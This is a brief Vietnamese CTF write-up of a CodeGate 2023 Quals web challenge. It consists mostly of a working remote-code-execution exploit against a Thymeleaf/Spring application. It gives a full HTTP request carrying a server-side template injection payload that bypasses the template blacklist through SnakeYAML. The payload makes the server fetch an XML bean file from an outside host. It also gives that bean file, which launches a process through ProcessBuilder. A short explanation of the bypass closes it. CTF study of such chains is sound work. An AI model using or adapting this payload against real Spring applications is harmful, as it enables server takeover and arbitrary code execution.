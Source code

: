 Đây là một bài brief do mình ngồi tham khảo solution và làm lại của bài web cuối cùng trong đợt CodeGate 2023 Quals hồi đầu năm

Request: 
```http
GET /<@urlencode>__|*bla**{"a"+@servletContext.setAttribute("t","".class.forName("org.thymeleaf.TemplateEngine").newInstance())+@servletContext.getAttribute("t").setDialects("".class.forName("org.thymeleaf.spring6.dialect.SpringStandardDialect").newInstance())+@servletContext.getAttribute("t").process(("[["+"*"+"{T"+"(org.yaml.snakeyaml.Yaml).newInstance().load("+"".copyValueOf("a".toCharArray()[0].toChars(39))+thymeleafRequestContext.httpServletRequest.getParameterMap().values()[0][0]+"".copyValueOf("a".toCharArray()[0].toChars(39))+")}"+"]]"),"".class.forName("org.thymeleaf.context.Context").newInstance())+""}|__<@/urlencode>?a=<@urlencode>aaa: !!org.springframework.context.support.FileSystemXmlApplicationContext [ "http://172.23.42.39:8082/exploit.bean" ]<@/urlencode>%0a HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION=MTA5MjljNmEtOGRhMy00YTlhLWI0MmItOTc2ZTc5ZDM5NDZl
Connection: close


```

exploit.bean:
```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans
     http://www.springframework.org/schema/beans/spring-beans.xsd
">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <array>
                <value>calc.exe</value>
            </array>
        </constructor-arg>
        <property name="any" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Brief: dùng syntax **Literal Substitution** của Thymeleaf để bypass phần check trong phần preprocess của thymeleaf, từ đó gọi lại `org.thymeleaf.TemplateEngine` 1 lần nữa để parse EL nhằm bypass đoạn check `T(`. Sử dụng class `org.yaml.snakeyaml.Yaml` vì nó không nằm trong blacklist của thymeleaf, lợi dụng cú pháp `Secondary Tag Handle` mà snakeyaml implement để load 1 class tùy ý, load đến class `org.springframework.context.support.FileSystemXmlApplicationContext` để parse một remote xml file để RCE
